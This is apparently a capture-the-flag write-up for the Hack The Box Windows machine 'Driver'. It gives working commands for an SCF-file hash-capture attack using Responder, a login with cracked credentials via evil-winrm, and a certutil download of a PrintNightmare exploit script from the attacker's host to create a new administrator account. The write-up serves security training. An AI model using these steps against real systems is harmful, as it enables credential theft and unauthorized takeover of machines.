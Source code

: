 # Box: Driver
# Level: Easy
# OS: Windows
<hr>

Lets get started

# Recon

## PortScanning

command:```sudo nmap -A 10.129.95.238 -v -p- -T4```

```
Nmap scan report for 10.129.95.238
Host is up (0.26s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT     STATE SERVICE      VERSION
80/tcp   open  http         Microsoft IIS httpd 10.0
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=MFP Firmware Update Center. Please enter password for admin
135/tcp  open  msrpc        Microsoft Windows RPC
445/tcp  open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 2008|Phone|7 (89%)
OS CPE: cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_7
Aggressive OS guesses: Microsoft Windows Server 2008 R2 (89%), Microsoft Windows 8.1 Update 1 (86%), Microsoft Windows Phone 7.5 or 8.0 (86%), Microsoft Windows Embedded Standard 7 (85%)
No exact OS matches for host (test conditions non-ideal).
Uptime guess: 0.032 days (since Sun Oct 22 08:20:46 2023)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=261 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: Host: DRIVER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2023-10-22T15:06:27
|_  start_date: 2023-10-22T14:20:56
|_clock-skew: mean: 7h00m00s, deviation: 0s, median: 7h00m00s

TRACEROUTE (using port 135/tcp)
HOP RTT       ADDRESS
1   297.15 ms 10.10.14.1
2   297.50 ms 10.129.95.238

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Oct 22 09:07:02 2023 -- 1 IP address (1 host up) scanned in 382.32 seconds
```
From our scan we have 4 open ports, lets start our enumeration today from port 80


# Enumeration

Navigating to the weboage we were asked to login

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/eb930ccc-b66a-4a9a-91ad-c3f6db4ceae2)

Default creds ```admin:admin``` actually works. Using that should get us logged in

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/8ce16f32-ccb1-468b-ab07-169c3003ab5b)

nice we are in

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/15e454bb-5e2d-403d-974f-2e178bd582a3)

We can see this file upload button. Doing my research I found out that I can use SCF (Shell Command Files) files to gather hahses hehe.

Lets exploit this



# Exploitation

We can perform smb-share-scf-file-attacks here. You can read more about it [here](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/)

First lets create the scf file

```
[Shell]
Command=2
IconFile=\\10.129.95.238\share\test.ico
[Taskbar]
Command=ToggleDesktop
```
Save this in a file say "bankai.scf". Also, adding the ```@``` symbol in front of the filename will place the ```bankai.scf``` on the top of the share drive


```
┌──(bl4ck4non👽bl4ck4non-sec)-[~/Downloads/HTB/driver]
└─$ nano @bankai.scf
                                                                                                                                                                                                                                             
┌──(bl4ck4non👽bl4ck4non-sec)-[~/Downloads/HTB/driver]
└─$ cat @bankai.scf 
[Shell]
Command=2
IconFile=\\10.14.61\share\test.ico
[Taskbar]
Command=ToggleDesktop
```
Before uploading this file, set up your responder, so it can capture the hash of the user that accesses the share

command:```sudo responder -I tun1```

In your case it might be ```tun0``` not ```tun1```, just confirm this using the ```ifconfig``` command

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/dc4ae222-e8e8-44b8-9f5a-5b0942f3ddc2)

Nice, now lets upload the file

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/6b218642-3fa6-4d97-b1df-7bd6d2006711)

Checking the responder we set up

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/7834b376-ac8f-471f-a8a6-61699d3f87b2)

smooth, we were able to capture the hash.

Now lets crack this usig hashcat

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/f8a69fca-026c-4700-9f68-1f5f9d250ba6)

We successfully cracked the hash

Now lets connect using ```evil-winrm```

username:```tony```        password:```liltony```

command:```evil-winrm -u tony -i 10.129.73.227 -p 'liltony'```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/566577af-488c-48d1-9411-112ea4b0f282)

cool, we are in. Lets go ahead to escalate our privileges



# Privilege Escalation

Running winPEAS I found this

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/c933c0a2-1af7-47e4-a750-7a2ac4ec7549)

Lets check out the content of the file

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/e09157b3-97f6-4126-bd32-45cde000948c)

We can see a specific printer type ```"RICOH_PCL6```, apparently there's an exploit for this printer type that can help us escalate our privileges

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/0da2ca2d-a24e-4655-9c17-9da7819efa80)

We won't be using metasploit lool

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/b2dcde39-afad-415c-9150-bf414edcbb53)

We'll be using this. You can download the powershell script from [here](https://github.com/calebstewart/CVE-2021-1675/blob/main/CVE-2021-1675.ps1)

We'll send this over to the target's machine using ```certutil```

command:```certutil -urlcache -f http://10.10.14.61/CVE-2021-1675.ps1 exploit.ps1```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/1f59e272-c197-43c8-8c33-2a381b65f849)

Lets execute this script by running

```
Import-Module .\exploit.ps1
```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/3e809700-16da-4d49-9d56-a58446c93014)

we got an error omor. We can easily resolve this issue by changing the script execution policy for the current user

command:```Set-ExecutionPolicy Unrestricted -Scope CurrentUser```

After running the command, lets try to import the powershell script again

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/c4ede32c-4991-4c06-a6ac-a93a51433332)

cool, no error. Now, we can add a new user to the local administrators group by default

command:```Invoke-Nightmare -NewUser "BlackAnon" -NewPassword "qwerty123"```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/b8a1bfd5-cef8-4ef0-bd74-69e4d8ead25d)

Cool, it worked.

Lets use ```evil-winrm``` to connect to the server using the newly generated creds

command:```evil-winrm -u BlackAnon -i 10.129.73.227 -p 'qwerty123'```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/dbe12f14-baed-4600-9b63-8524d090dcbe)

We have successfully pwned this box😎


That will be all for today
<br><br>
[Back To Home](../../index.md)





























